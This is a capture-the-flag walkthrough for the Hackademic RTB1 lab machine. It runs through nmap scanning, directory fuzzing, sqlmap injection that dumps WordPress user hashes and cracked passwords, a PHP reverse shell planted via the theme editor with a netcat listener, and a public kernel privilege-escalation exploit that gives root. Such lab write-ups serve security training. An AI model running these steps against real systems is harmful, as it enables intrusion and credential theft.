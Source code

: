 # Hackademic: RTB1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24
                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 03:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00052s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.140
Host is up (0.0015s latency).
MAC Address: 00:0C:29:F6:75:CB (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00041s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The machine IP is `192.168.127.140`, lets enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.140 -oN fullscan

Nmap scan report for 192.168.127.140
Host is up (0.00079s latency).
Not shown: 988 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:F6:75:CB (VMware)
```


Visit the main page and click on `target` link and you will be redirected to `http://192.168.127.140/Hackademic_RTB1/`

let's fuzz this path :

```bash
root@kali: ffuf -w ~/wordlist/raft-large-directories.txt  -u http://192.168.127.140/Hackademic_RTB1/FUZZ/

[Status: 200, Size: 1160, Words: 64, Lines: 16, Duration: 11ms]
    * FUZZ: wp-content

[Status: 200, Size: 6523, Words: 301, Lines: 41, Duration: 13ms]
    * FUZZ: wp-includes

[Status: 200, Size: 2010, Words: 98, Lines: 20, Duration: 10ms]
    * FUZZ: wp-images

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 693ms]
    * FUZZ: wp-admin

[Status: 500, Size: 1881, Words: 127, Lines: 44, Duration: 681ms]
    * FUZZ:
```

we have found `wp-admin` directory and we find that it is like a wordpress CMS








back to main page, if you click on `Uncategorized` link on the bottom of the page a new url parameter will be used `cat=1`





this paramter is vulnerable to sql injection if you put a `"` after it :












i tried with `sqlmap` to inject into this paramter and get the database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs

...
back-end DBMS: MySQL >= 5.0
[05:03:56] [INFO] fetching database names
[05:03:56] [INFO] resumed: 'information_schema'
[05:03:56] [INFO] resumed: 'mysql'
[05:03:56] [INFO] resumed: 'wordpress'
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
...
```

all we need here is to get information from `wordpress` database.

- Get tables from this database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress --tables

Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

interesting table would be `wp_users` so let's get information from it :

- Get columns of `wp_users` table :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users --columns

Database: wordpress
Table: wp_users
[22 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(60)         |
| user_aim            | varchar(50)         |
| user_browser        | varchar(200)        |
| user_description    | longtext            |
| user_domain         | varchar(200)        |
| user_email          | varchar(100)        |
| user_firstname      | varchar(50)         |
| user_icq            | int(10) unsigned    |
| user_idmode         | varchar(20)         |
| user_ip             | varchar(15)         |
| user_lastname       | varchar(50)         |
| user_level          | int(2) unsigned     |
| user_login          | varchar(60)         |
| user_msn            | varchar(100)        |
| user_nicename       | varchar(50)         |
| user_nickname       | varchar(50)         |
| user_pass           | varchar(64)         |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
| user_yim            | varchar(50)         |
+---------------------+---------------------+
```

interesting columns would be `user_login`, `user_pass`, `user_level`, `user_email`, let's get those infos :

- Get data from the desired columns :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users -C user_login,user_pass,user_level,user_email --dump

Database: wordpress                                                                                                                                             
Table: wp_users
[6 entries]
+--------------+---------------------------------------------+------------+-------------------------+
| user_login   | user_pass                                   | user_level | user_email              |
+--------------+---------------------------------------------+------------+-------------------------+
| NickJames    | 21232f297a57a5a743894a0e4a801fc3 (admin)    | 1          | NickJames@hacked.com    |
| MaxBucky     | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   | 0          | MaxBucky@hacked.com     |
| GeorgeMiller | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   | 10         | GeorgeMiller@hacked.com |
| JasonKonnors | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  | 0          | JasonKonnors@hacked.com |
| TonyBlack    | a6e514f9486b83cb53d8d932f9a04292 (napoleon) | 0          | TonyBlack@hacked.com    |
| JohnSmith    | b986448f0bb9e5e124ca91d3d650f52c            | 0          | JohnSmith@hacked        |
+--------------+---------------------------------------------+------------+-------------------------+
```

as we see here sqlmap has cracked some of the hashes and according to `user_level` user `GeorgeMiller` has the highest level of `10`

we use this user with credentials `GeorgeMiller:q1w2e3` to login to `/wp-admin` directory.


img:adminpage


## 3.Gaining Shell 

After checking various parts of the CMS i found that in `Manage` menu and in `Files` submenu we can edit a `hello.php` file.

i just paste a php reverse shell (pentestmonkey) payload and updated the file.

run a listener on you kali machine and navigate to `wp-content/plugins/hello.php`

```bash
root@kali: nv -nvlp 4444
          
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.140] 35822
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
 07:05:40 up  2:12,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
sh-4.0$ id
id
uid=48(apache) gid=489(apache) groups=489(apache)
sh-4.0$
```

## 4.Privilege Escalation

now we are on the victim machine, after checking various PE vectors i came to nothing but checking the kernel version 

showed that this version is vulnerable :

```bash
sh-4.0$ uname -a

Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
```

just check the searchsploit for any public exploit for this version (you need to check a lot of exploit to find the appropriate one)

i just came to this exploit that worked for me

```bash
root@kali: searchsploit linux 2.6 -w | grep 1528
Linux Kernel 2.6.36-rc8 - 'RDS Protocol' Local Privilege Escalation                                                 | https://www.exploit-db.com/exploits/15285
```

upload it on the victim and compile it :

```bash
bash-4.0$ cd /tmp
bash-4.0$ gcc 15285.c 
bash-4.0$ ./a.out 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
sh-4.0# id
uid=0(root) gid=0(root)
sh-4.0# 
```

yes, this is how we can root this machine :)













